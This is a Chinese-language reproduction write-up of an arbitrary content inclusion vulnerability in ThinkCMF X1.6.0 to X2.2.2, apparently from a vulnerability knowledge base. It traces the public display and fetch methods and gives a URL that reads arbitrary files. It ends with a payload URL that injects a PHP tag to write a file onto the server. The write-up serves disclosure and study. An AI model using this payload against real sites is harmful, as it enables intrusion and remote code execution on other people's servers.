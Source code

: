 ```yaml
---
title: "ThinkCMF 框架上的任意内容包含漏洞"
id: zhfly3138
---
```


# ThinkCMF 框架上的任意内容包含漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2

## 三、复现过程

根据index.php中的配置，他的项目路径为application，打开 Portal 下的 Controller 目录，选择一个控制类文件。

![image](../img/2b6a42a3bcca1c7062e9fb81990a2cf0.png)

发现他的父类为Common\Controller\HomebaseController。
在HomeBaseController中加入如下测试代码

![image](../img/c766c7cc2387ac46920f4fd1cbe5b543.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public, 而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

```
http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success 
```

![image](../img/8129073d7be6fbd2441ee49b3ba11ca4.png)

HomeBaseController类中有一些访问权限为public的函数，

![image](../img/9aa3c4fdec99f95178857d03f2f9ee98.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
$this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

```
/**
 * 加载模板和页面输出 可以返回输出内容
 * @access public
 * @param string $templateFile 模板文件名
 * @param string $charset 模板输出字符集
 * @param string $contentType 输出类型
 * @param string $content 模板输出内容
 * @return mixed
 */
public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
    parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
} 
```

再往下就是调用Think View的fetch方法，这里的TMPL_ENGINE_TYPE 为Think, 最终模版内容解析在ParseTemplateBehavior中完成
如下调用即可加载任意文件
http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md

![image](../img/4abe08032248d763301f0efb37d84ba5.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

```
http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php> 
```